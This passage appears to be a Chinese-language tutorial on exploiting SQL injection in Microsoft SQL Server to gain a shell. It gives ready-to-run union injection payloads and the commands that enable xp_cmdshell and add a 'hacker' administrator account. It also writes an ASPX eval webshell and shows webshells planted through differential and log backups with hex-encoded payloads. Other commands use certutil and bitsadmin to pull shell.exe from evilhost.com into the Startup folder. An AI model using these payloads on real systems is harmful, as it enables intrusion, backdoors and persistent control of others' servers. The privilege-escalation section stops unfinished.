```
?id=1 union select null,null,DB_NAME();
也可以通过这样去联合报错
?id=1 union select null,null, (select CAST(db_name() as int))
```

在mssql中我们如果想查询多条数据可以使用%2B 也就是加号

```
?id=1 union select null,name%2Bpass,null from info
```

### getshell和提权

#### 1.getshell

getshell也就涉及到了权限的问题，能否getshell要看你当前的用户权限，如果是没有进行降权的sa用户，那么你几乎可以做任何事。它数据库权限是`db_owner`，当然你如果有其他具有do_owner权限的用户也可以。

所以我们getshell的两大前提:

- 有相应的权限db_owner
- 知道web目录的绝对路径

那我们先讲一下怎么拿到目录的绝对路径

##### 1.1寻找绝对路径

寻找绝对目录一般有以下几个思路

1. 报错寻找 

2. 字典猜

3. 旁站信息收集

4. 调用储存过程来搜索

5. 读配置文件

前三种方法都是比较常见的方法。我们主要来讲第四种调用存储过程来搜索。

在mssql中有两个存储过程可以帮我们来找绝对路径：`xp_cmdshell xp_dirtree`

我们一个个进行讲解

- xp_dirtree

在SQL Server中，xp_dirtree是一个扩展存储过程，用于从指定路径中检索所有子文件和子目录的列表。它返回一个结果集，其中包含指定路径下所有子文件和子目录的详细信息。

以下是xp_dirtree的一般用法：

```
execute master..xp_dirtree 'c:' --列出所有c:\文件、目录、子目录 
execute master..xp_dirtree 'c:',1 --只列c:\目录
execute master..xp_dirtree 'c:',1,1 --列c:\目录、文件
```

那么我们怎么利用呢，执行xp_dirtree返回我们传入的参数如果你想把文件名一起返回来，因为没有回显所以可以这样创建一个临时的表插入

```mssql
?id=1;CREATE TABLE tmp (dir varchar(8000),num int,num1 int);
//创建一个临时表tmp，该表包含三列：dir用于存储文件或目录的路径，num和num1用于存储相关的数字信息。
?id=1;insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1
//INSERT INTO语句执行了master..xp_dirtree存储过程，并将其结果插入到之前创建的表tmp中。
//参数1和1分别是用于指示是否要处理子目录以及返回文件和目录的深度的参数。
```

- xp_cmdshell

`xp_cmdshell` 存储过程可以生成并执行 Windows 命令，任何输出都作为文本返回。`xp_cmdshell` 功能非常强大，但是从 MSSQL 2005 版本之后默认处于禁用状态，可以执行 `sp_configure` 来启用或禁用 `xp_cmdshell`。

`xp_cmdshell` 的利用条件如下：

- • 当前用户具有 DBA 权限
- • 依赖于 xplog70.dll
- • `xp_cmdshell` 存储过程存在并已启用

```mssql
/* 判断当前是否为 DBA 权限，返回 1 则可以提权 */
SELECT IS_SRVROLEMEMBER('sysadmin');

/* 查看是否存在 xp_cmdshell，返回 1 则存在 */
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'

/* 开启 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

/* 关闭 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;
```

一般的用法(执行命令)

```
EXEC master.dbo.xp_cmdshell 'whoami'
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'dir c:'
EXEC master..xp_cmdshell 'dir c:'
EXEC master..xp_cmdshell 'ipconfig/all'
EXEC master..xp_cmdshell 'systeminfo | findstr /B /C:"OS Name" /C:"OS Version"'
EXEC master..xp_cmdshell 'reg query HKEY_LOCAL_MACHINESYSTEMCurrentControlSetControlTerminal" "ServerWinStationsRDP-Tcp /v PortNumber'
EXEC master..xp_cmdshell 'net user hacker Passw0rd /add',NO_OUTPUT
EXEC master..xp_cmdshell 'net localgroup Administrators hacker /add',NO_OUTPUT
```

接下来我们先来看cmd中怎么查找文件。

```mssql
C:\Users\Aleen>for /r c:\ %i in (1*.aspx) do @echo %i
/*
这是一个for循环命令，用于在指定目录及其子目录中遍历文件。
%i：这是循环变量，用于存储每个匹配到的文件路径。
(1*.aspx)：这是匹配文件名的模式。1*.aspx表示以1开头且以.aspx结尾的文件。
do关键字后面的命令@echo %i用于打印匹配到的文件路径。
%i表示当前循环的文件路径。
*/
e:\code\php\1.php
C:\Users\Y4er>
```

所以我只需要建立一个表 存在一个char字段就可以了

```
?id=1;CREATE TABLE cmdtmp (dir varchar(8000));//创建一个名为cmdtmp的表。
?id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'
```

然后通过注入去查询该表就可以了。

到这里的话我们就了解完了绝对路径的获取方法，那我们接下来该怎么拿shell呢

##### 1.2 xp_cmdshell拿shell

上面已经讲到,xp_cmdshell可以用于执行Windows的cmd命令，那我们可以通过cmd 的echo命令来写入shell

```
?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\404.aspx' ;
```

也可以通过下载文件去把我们的payload传入

下载文件通常有下面几种姿势

1. certutil
2. vbs
3. bitsadmin
4. powershell
5. ftp

这里介绍两种比较常用的

调用 certutil 下载文件

```
EXEC master.dbo.xp_cmdshell 'cd C:UsersPublic & certutil -urlcache -split -f http://evilhost.com/download/shell.exe';
```

调用 bitsadmin 下载文件并写入系统启动项

```
EXEC master.dbo.xp_cmdshell 'bitsadmin /transfer n http://evilhost.com/image/shell.exe C:ProgramDataMicrosoftWindowsStart MenuProgramsStartUpshell.exe'
```

##### 1.3 差异备份拿shell

```mssql
1. backup database 库名 to disk = 'c:\bak.bak';--

2. create table [dbo].[test] ([cmd] [image]);

3. insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E)

4. backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--
```

差异备份我们有多种情况可能不成功，一般就是目录权限的问题，第一次备份的目录是否可能没有权限，第二次备份到网站目录是否有权限，所以一般不要直接备份到c盘根目录

当过滤了特殊的字符比如单引号，或者 路径符号 都可以使用前面提到的 定义局部变量来执行。

##### 1.4 log备份拿shell

LOG备份的要求是他的数据库备份过，而且选择恢复模式得是完整模式，至少在2008上是这样的，但是使用log备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式

```
1. alter database 库名 set RECOVERY FULL 

2. create table cmd (a image) 

3. backup log 库名 to disk = 'c:\xxx' with init 

4. insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) 

5. backup log 库名 to disk = 'c:\xxx\2.asp'
```

log备份的好处就是备份出来的webshell的文件大小非常的小

#### 2.提权getsystem

我们继续来探究该怎么提权的问题

一般来说我们用xp_cmdshell去执行我们的payload后，通常会利用Cobalt Strike

Cobalt Strike是一款专业的渗透测试工具，一些Cobalt Strike的主要特点包括：

1. **木马植入**：Cobalt Strike提供了钓鱼攻击、恶意软件植入等功能，用于在目标系统上植入后门、远程访问工具等。
2. **漏洞利用模块**：工具包含了各种漏洞利用模块，可用于利用目标系统中的漏洞。
3. **C2功能**：Cobalt Strike具有C2（命令和控制）功能，允许攻击者与受感染的系统进行通信、控制和数据交换。

提权没打过，确实写不动了，后面学了再回来补
